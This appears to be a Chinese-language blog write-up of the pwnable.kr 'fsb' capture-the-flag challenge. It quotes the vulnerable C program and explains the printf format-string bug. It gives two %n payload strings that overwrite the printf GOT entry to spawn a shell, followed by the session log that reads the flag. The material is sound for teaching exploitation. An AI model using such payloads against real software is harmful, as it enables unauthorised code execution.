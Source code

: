 ```yaml
---
title: pwnable.kr-fsb
date: 2018-02-27 14:04:54
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

# 前言
这是一道考察`printf`格式化字符串漏洞利用的题目，总的来说很简单，但是我却花了很长时间，主要是我有点太马虎没仔细分析代码，笑哭。
# 分析
先分析源代码`fsb.c`
```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
	char* args[]={"/bin/sh", 0};
	int i;

	char*** pargv = &argv;
	char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
	*pargv=0;
	*penvp=0;

	for(i=0; i<4; i++){
		printf("Give me some format strings(%d)\n", i+1);
		read(0, buf, 100);
		printf(buf);
	}

	printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
	return 0;
}

int main(int argc, char* argv[], char** envp){

	int fd = open("/dev/urandom", O_RDONLY);
	if( fd==-1 || read(fd, &key, 8) != 8 ){
		printf("Error, tell admin\n");
		return 0;
	}
	close(fd);

	alloca(0x12345 & key);

	fsb(argv, envp); // exploit this format string bug!
	return 0;
}

```
程序先获得一个8字节的随机数存于全局变量`key`中，然后调用`alloca`函数在栈上分配内存。之后调用`fsb`函数。在这个函数内部要想达到`exeve`函数执行shell，就必须输入正确的`key`值。
这个`fsb`函数在`printf(buf)`处存在格式化字符串漏洞，关于漏洞利用网上有很多就不罗嗦了。那么要getshell其实方法有很多，可以改写`got`表也可以`leak`出key的值。这里直接改写`got`表好了，可以把`printf`的地址改写为要执行shell的地址，这样当执行`printf`时就跳到shell中了。
下面是exp
```bash
//各种地址和偏移在反汇编代码中就可以看出来，就不一一分析了
%134520836c%14$n //把printf的got表地址写入fsb函数的第一个参数中（方法很多你可以写到栈上的很多位置）
%134514347c%20$n //向printf的got表写入要执行shell的地址
```
```bash
fsb@ubuntu:~$ ./fsb >/dev/null 2>&1
%134520836c%14$n
%134514347c%20$n
cat flag >/tmp/flag
exit
fsb@ubuntu:~$ cat /tmp/flag
Have you ever saw an example of utilizing [n] format character?? :(
fsb@ubuntu:~$ 
```
要注意的是需要把程序的标准输出和错误输出重定向到`/dev/null`，这样就不会因为输出数据过多而卡死了。
# 总结
还是简单的格式化字符串漏洞的题目，利用方法很多，当时因为一直想通过`alloca`函数来计算`key`而浪费了很多时间，然而这样计算出来的只是前4字节，唉要细心啊。。